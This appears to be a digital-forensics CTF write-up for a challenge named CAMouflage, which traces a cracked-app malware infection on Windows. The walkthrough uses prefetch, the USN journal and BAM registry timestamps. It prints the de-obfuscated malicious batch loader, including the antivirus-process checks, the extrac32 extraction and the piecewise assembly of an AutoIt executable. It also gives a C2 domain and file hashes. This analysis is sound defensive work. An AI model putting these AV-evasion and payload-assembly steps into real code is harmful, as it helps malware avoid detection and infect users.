# CAMouflage

## Sherlock scenario

A newly launched campaign has been detected targeting multiple users utilizing cracked applications. We received an alert indicating unusual behavior from one of our user’s laptops and performed an initial triage. Your task is to conduct a deep dive investigation to determine the root cause and extent of the incident.

## Given artifact

The whole C drive of infected machine

## Questions

### 1. Based on forensic artifacts, at what precise timestamp did the user first execute the Cracked App installer?

When given a question involving execution timestamp, my first reaction is always to check for prefetch files, however, we do not know in advance the name of that cracked app, and the pf folder is quite large. After a while, I see this one as the most suspicious entry, perhaps the 'crack' term is truncated as the pf name length is limited ?



I use the USN Journal to find for the full path, and it's clear now (pay attention to the `.wp5` file, it's important later):



Using Eric Zimmerman's `PECmd` to parse:



Question asks for the first run time, so we take this:

**Answer: 2025-06-21 18:34:19**

### 2. When did the installer process terminate?

Alright, this is the trickiest question I find in this sherlock, takes me a lot of time on trying every artifacts I could think of. As there is no Sysmon log, I try to find in Security log for ID 4689, but there is no entry, perhaps process termination logging is not enabled. 

The next artifact I try with the suggestion of LLM is `SRUDB.dat`. Even though it silently tracks system-wide process execution, application data, power consumption, and network usage over a rolling 30-to-60 day history window, it's not so reliable when we need the exact timestamp because of hourly flushes instead of real-time, and the time stamp is also rounded to the minutes. It would be more appropriate for questions involving yes/no, like we want to confirm an entry, rather than exact time like this. It should be used if we need to prove data exfiltration volume, corroborate account attribution or detect rogue background services

After trying in vain with other artifacts, I finally see what I need: the `BAM (Background Activity Moderator)` , which lies in `HKLM\SYSTEM\CurrentControlSet\Services\Bam\UserSettings\{User_SID}`. It is a Windows service introduced in Windows 10 (1709) designed to manage the power consumption of background applications.

Unlike the Shimcache or Amcache (which track initial creation/execution or last modification), BAM updates its timestamp when a process transitions or exits.

Because BAM's job is to police background apps, it keeps tabs on active processes. When a process finishes executing or is terminated, the BAM service updates the Registry key's internal structure. In digital forensics, parsing the Last Registry Write Time of a specific value inside the BAM key effectively gives you the most recent time that specific application closed or stopped running



Got the answer here!

**Answer: 2025-06-21 18:36:52**

### 3. What was the first file dropped by the malware post-installation?

In the prefetch file we can see that the installer touches a lot of suspicious `.wp5` file (wp5 is indeed a legacy document file extension), how can a cracked camera app create documents ?



Return to the parsed `$J` for the chronological order, it's the file I mentioned in previous question

**Answer: Mysql.wp5**

## 4. What is the SHA-256 hash of the .cab archive extracted during execution?

Let's have a look at all the dropped files:

```text
lehie@MSI:/mnt/c/CTF_Workspace/BKSEC/Sherlock/Easy/CAMouflage/C/Users/Administrator/AppData/Local/Temp$ file *.wp5
Art.wp5:           data
Authorization.wp5: data
Gba.wp5:           data
Lock.wp5:          data
Play.wp5:          Microsoft Cabinet archive data, many, 488221 bytes, 11 files, at 0x2c last modified Sun, Jun 20 2025 02:40:38 +A "Theology" last modified Sun, Jun 20 2025 02:40:38 +A "Thanksgiving", ID 9045, number 1, 29 datablocks, 0x1 compression
Refugees.wp5:      data
Romania.wp5:       data
Runner.wp5:        data
```

Note that you won't see the `Mysql.wp5` here because it is indeed a `.bat` script and I have moved it to de-obfuscate before I write this write-up.

Also, we found the cabinet archive file, it's the `Play.wp5` in disguise, use `sha256sum` to take the hash

**Answer: 35efc15a41cf54a51703711e0b117b1899e4698bed1a4fdae638ebb7a3a190e0**

## 5. What command did the malware use to extract content files from that .cab file?

As I have noted, the `Mysql.wp5` is a bat script:



The obfuscation schema is simple, yet it is not so simple to de-obfuscate it manually:



There are also a lot of junk lines with unmatched parentheses, cmd would simply silently throw `Command not found` and continue with next lines so we should omit it when inspecting. I manually remove those junk lines, and add `echo` to each command line to print it to console instead of executing, here is the result:

```text
Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=Moscow.com

Set PWFtGNjfw=

Set yIpWXmEeJiPlXYAAmcMkIlfSPB=5

"tasklist | findstr /I 'opssvc wrsa' & if not errorlevel 1 ping -n 192 127.0.0.1"

Set /a Wing=448887

"tasklist | findstr 'bdservicehost SophosHealth AvastUI AVGUI nsWscSvc ekrn' & if not errorlevel 1 Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=AutoIt3.exe & Set PWFtGNjfw=.a3x & Set yIpWXmEeJiPlXYAAmcMkIlfSPB=300"

"md 448887"

"extrac32 /Y Play.wp5 *.*"

"set /p ='MZ' > 448887\Moscow.com <nul"

"findstr /V 'Surplus' Balls >> 448887\Moscow.com"

"copy /b 448887\Moscow.com + Hell + Analyze + Theology + Thanksgiving + Subsequently + Mechanisms + Dawn + Draws + Appreciated + Investors 448887\Moscow.com"

"cd 448887"

"copy /b ..\Runner.wp5 + ..\Art.wp5 + ..\Gba.wp5 + ..\Romania.wp5 + ..\Refugees.wp5 + ..\Authorization.wp5 + ..\Lock.wp5 K "

"start Moscow.com K "

"cd .."

"choice /d n /t 5"
```

It first sets alias for some variables like process name and sleep time. After that, if finds for some AVs in running processes, if found, it constantly pings the local host 192 times, around 3 minutes to evade detection.

Then a random-named directory is created, and it continues to scan for AVs, if found, the process name is changed to the legitimate `AutoIt`, and sleep time is increase to 300 seconds.

The cabinet archive then gets extracted, an exe file is created and prepended `MZ` header, appended a string `Surplus`, then a lot of files (maybe from the extracted CAB) get concatenated and appended to Moscow.com the executable, this is a way of building the malware piece by piece, efficiently evade AVs.

Other newly dropped `.wp5` files are also concatenated to a file named `K`, then Moscow.com (indeed AutoIt in disguise) is triggered, K is passed as argument.

Finally, the malware return to the initial directory, sleep for 5 or 300 seconds depending on the result of AV check.

That's all, we can answer a lot of question now, let's defeat this first:

**Answer: `extrac32 /Y Play.wp5 *.*`**

## 6. During execution, the malware performed AV/EDR checks. How many security product-related strings did it search for in memory or processes?

Just count it

**Answer: 6**

## 7. After the batch file was executed, what was the name of the process that ran?

The `AutoIt` tool will be renamed to Moscow.com if Avs are not found, according to the batch script

**Answer: MOSCOW.COM**

## 8. What is the original name for that process?

Seen in the batch script, the original name will be used if AV is detected

**Answer: AutoIt3.exe**

## 9. What is the SHA-256 hash of the file loaded by the above identified process?

It's the file `K`! We can obtain it by extracting the cabinet archive, then use `cat .... > K` (place the corresponding `.wp5` file in order)

**Answer: 2b3d1561b9ae7fa2bd3f09dee28a327b5647a908113945cd2a943134822d18d0**

## 10. What is the C2 Domain name address contacted by the malware?

At first, I try to RE the AutoIt script `K.a3x` with `autoit-ripper`. However, it's too much for a forensics challenge. Here the STORM function performs de-obfuscation:



For example:

```autoit
STORM ( "109J103J116J112J103J110J53J52J48J102J110J110" , 2 + 0 )
```

It takes the big string of numbers separated by J, then subtracts the second argument (2) from each number.
-  109 - 2 = 107 (which is the ASCII character k)
- 103 - 2 = 101 (which is e)
- 116 - 2 = 114 (which is r)
- ... and so on.

If we do this for the whole string, it perfectly spells out `kernel32.dll`!

But even after the help of LLM to extract all ascii string, the domain or any IP are still nowhere to be found. After that I realize it uses Process Hollowing technique, trying to reconstruct the injected PE would be a nightmare, so I decided to perform dynamic analysis in my VM

With Procmon (apply filter in advance for the Moscow process) and wireshark ready, I detonate the malware:







There are two contected domains, but the answer here is:

**Answer: crowfza.xyz**
